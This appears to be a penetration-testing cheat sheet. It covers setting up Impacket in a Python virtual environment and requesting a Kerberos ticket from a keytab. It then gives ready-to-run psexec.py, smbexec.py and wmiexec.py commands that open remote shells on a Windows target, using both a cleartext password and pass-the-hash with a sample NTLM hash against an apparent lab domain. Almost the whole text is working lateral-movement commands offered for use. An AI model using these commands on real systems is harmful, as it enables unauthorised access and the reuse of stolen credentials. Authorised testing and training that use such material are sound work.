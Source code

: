 
# Python venv quick launch

```
source ~/impacket/venv/bin/activate
```

# Python venv Install (skip if done already):
```
git clone https://github.com/fortra/impacket.git ~/impacket && cd ~/impacket
```

```
python3 -m venv venv && source venv/bin/activate && pip install .
```



## Usage (Start here after initial install):
```
source ~/impacket/venv/bin/activate
```

```
python3 ~/impacket/examples/getTGT.py -k -no-pass 'COMPLYEDGE.COM/WEB05$' -keytab krb5.keytab
```


#### Shell with psexec.py
When we have valid credentials, we can simply login to target.
```python
python3 psexec.py marvel.local/fcastle:Password1@$TARGET
```

#### Passing the hash
When we have username and hash, we can login to target.
```python
python3 psexec.py marvel.local/fcastle@192.168.111.138 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```

#### Shell with smbexec.py
When we have valid credentials, we can simply login to target.
```python
smbexec.py marvel.local/fcastle:Password1@$TARGET
```

#### Passing the hash
When we have username and hash, we can login to target.
```python
smbexec.py marvel.local/fcastle@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```

#### Shell with wmi.py
When we have valid credentials, we can simply login to target.
```python
wmiexec.py marvel.local/fcastle:Password1@$TARGET
```
#### Passing the hash
When we have username and hash, we can login to target.
```python
wmiexec.py marvel.local/fcastle@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```

















